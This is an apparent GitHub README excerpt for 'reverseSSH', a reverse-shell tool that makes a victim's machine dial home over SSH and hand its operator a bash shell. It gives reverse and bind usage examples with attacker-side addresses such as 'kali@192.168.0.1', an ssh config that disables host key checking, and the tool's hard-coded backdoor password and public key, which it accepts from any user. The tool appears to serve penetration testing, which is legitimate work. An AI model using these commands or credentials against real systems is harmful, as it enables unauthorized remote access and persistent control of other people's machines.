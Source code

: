 In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](assets/id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Full usage

```
reverseSSH v1.2.0  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [[<user>@]<target>]

Examples:
  Bind:
        reverse-ssh -l
        reverse-ssh -v -l -p 4444
  Reverse:
        reverse-ssh 192.168.0.1
        reverse-ssh kali@192.168.0.1
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -l, Start reverseSSH in listening mode (overrides reverse scenario)
        -p, Port at which reverseSSH is listening for incoming ssh connections (bind scenario)
                or where it tries to establish a ssh connection (reverse scenario) (default: 31337)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -s, Shell to spawn for incoming connections, e.g. /bin/bash; (default: /bin/bash)
                for windows this can only be used to give a path to 'ssh-shellhost.exe' to
                enhance pre-Windows10 shells (e.g. '-s ssh-shellhost.exe' if in same directory)
        -N, Deny all incoming shell/exec/subsystem and local port forwarding requests
                (if only remote port forwarding is needed, e.g. when catching reverse connections)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user other than 'reverse' while dialling home

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```
